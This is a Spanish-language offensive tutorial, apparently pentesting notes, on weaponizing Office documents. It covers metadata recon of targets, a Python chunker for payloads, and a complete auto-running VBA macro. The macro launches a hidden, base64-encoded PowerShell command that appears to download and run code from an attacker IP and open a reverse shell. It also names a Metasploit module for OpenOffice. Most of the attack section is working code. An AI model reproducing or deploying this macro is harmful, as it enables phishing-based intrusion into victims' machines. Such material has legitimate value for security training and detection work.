 # Intro

- Los macros de los productos de Office nos permiten inyectar código malicioso.
- Por cuestiones de seguridad, todo lo que haya sido descargado (sea de un mail o del navegador) estará bloqueado con el cartel de **habilitar edición** y el usuario deberá accionarlo para que el macro se ejecute.


# Recon

Podemos aprovechar cualquier documento (docs, pdfs,etc) para extraer información de la metadata y tener un conocimiento más profundo de las tecnologías y versiones utilizadas por la victima. Incluido, si es una empresa, el nombre de un user


    exiftool -a -u brochure.pdf



Podemos extraer más información usando canary token y haciendolo llegar a la víctima

    https://canarytokens.com/nest/

# Creando macros para reverseshell


- El macro debe estar guardado en un .doc o .docm; los .docx no permiten guardar el macro dentro del documento. Crear el documento y darle en el tipo "windows 97-2003"
- La opción de macros esta en view > macros
- Una vez generado el macro, creamos nuestro payload malicioso en base64 y lo dividimos en partes.

### Código en python para dividirlo

      str = "<payload>"
      
      n = 50
      
      for i in range(0, len(str), n):
      	print("Str = Str + " + '"' + str[i:i+n] + '"')

### Macro malicioso


    Sub AutoOpen()
        MyMacro
    End Sub
    
    Sub Document_Open()
        MyMacro
    End Sub
    
    Sub MyMacro()
        Dim Str As String
        
        Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
            Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
            Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
        ...
            Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
            Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
            Str = Str + "A== "
    
        CreateObject("Wscript.Shell").Run Str
    End Sub


### Ponemos un listener y esperamos que se vuelva a abrir.


# OpenOffice

Podemos crearlo con metasploit con 

    use multi/misc/openoffice_document_macro

